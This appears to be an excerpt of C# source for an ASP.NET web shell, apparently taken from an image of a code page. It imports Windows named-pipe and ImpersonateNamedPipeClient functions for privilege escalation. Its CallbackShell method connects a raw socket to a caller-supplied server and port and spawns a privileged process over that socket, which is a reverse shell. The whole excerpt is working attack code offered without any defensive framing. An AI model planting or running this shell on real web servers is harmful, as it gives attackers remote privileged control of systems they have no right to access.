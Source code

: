 ```asp

    public const ulong ERROR_SUCCESS = 0;
    public const ulong ERROR_CANNOT_CONNECT_TO_PIPE = 2;
    public const ulong ERROR_PIPE_BUSY = 231;
    public const ulong ERROR_NO_DATA = 232;
    public const ulong ERROR_PIPE_NOT_CONNECTED = 233;
    public const ulong ERROR_MORE_DATA = 234;
    public const ulong ERROR_PIPE_CONNECTED = 535;
    public const ulong ERROR_PIPE_LISTENING = 536;

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr CreateNamedPipe(
        String lpName,									
        uint dwOpenMode,								
        uint dwPipeMode,								
        uint nMaxInstances,							
        uint nOutBufferSize,						
        uint nInBufferSize,							
        uint nDefaultTimeOut,						
        IntPtr pipeSecurityDescriptor
        );

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool ConnectNamedPipe(
        IntPtr hHandle,
        uint lpOverlapped
        );

    [DllImport("Advapi32.dll", SetLastError = true)]
    public static extern bool ImpersonateNamedPipeClient(
        IntPtr hHandle);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool GetNamedPipeHandleState(
        IntPtr hHandle,
        IntPtr lpState,
        IntPtr lpCurInstances,
        IntPtr lpMaxCollectionCount,
        IntPtr lpCollectDataTimeout,
        StringBuilder lpUserName,
        int nMaxUserNameSize
        );
 
    protected void CallbackShell(string server, int port)
    {

        string request = "Spawn Shell...\n";
        Byte[] bytesSent = Encoding.ASCII.GetBytes(request);

        IntPtr oursocket = IntPtr.Zero;
        
        sockaddr_in socketinfo;
        oursocket = WSASocket(AddressFamily.InterNetwork,SocketType.Stream,ProtocolType.IP, IntPtr.Zero, 0, 0);
        socketinfo = new sockaddr_in();
        socketinfo.sin_family = (short) AddressFamily.InterNetwork;
        socketinfo.sin_addr = inet_addr(server);
        socketinfo.sin_port = (short) htons((ushort)port);
        connect(oursocket, ref socketinfo, Marshal.SizeOf(socketinfo));
        send(oursocket, bytesSent, request.Length, 0);
        SpawnProcessAsPriv(oursocket);
        closesocket(oursocket);
    }
```
